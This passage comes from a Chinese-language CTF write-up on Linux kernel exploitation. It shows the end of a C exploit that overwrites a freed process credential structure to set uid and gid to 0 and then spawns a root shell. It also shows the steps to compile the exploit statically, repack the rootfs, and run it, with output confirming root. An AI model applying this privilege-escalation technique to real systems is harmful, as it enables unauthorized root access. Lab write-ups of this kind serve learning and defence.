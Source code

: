 ```CPP
        // 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
        char zeros[30] = {0};
        write(fd2, zeros, 28);

        if(getuid() == 0)
        {
            puts("[+] root now.");
            system("/bin/sh");
            exit(0);
        }
    }

    else
    {
        wait(NULL);
    }
    close(fd2);

    return 0;
}
```

我们对exp进行编译，因为这个题目的kernel里面没有libc，所以这里我们静态编译exp:
```bash
➜  Desktop gcc exp.c -static -o exploit
➜  Desktop file exploit 
exploit: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=b4df5ea181b300281f32a5e9a974ccd2f24f2ee3, not stripped
```
因为我们是本地调试，所以可以将exp直接放入到rootfs目录中并重新打包：
```bash
➜  Desktop cp exploit ./rootfs/home/ctf/        
➜  Desktop cd rootfs 
➜  rootfs find . | cpio -o --format=newc > ../rootfs.cpio
7216 blocks
```
接下来直接运行并执行exp就可以拿到root权限：
```bash
/ $ cd /home/ctf
~ $ ls
exploit
~ $ ./exploit 
[   22.269245] device open
[   22.270112] device open
[   22.271025] alloc done
[   22.271863] device release
[+] root now.
/home/ctf # id
uid=0(root) gid=0(root) groups=1000(ctf)
```

## 延申
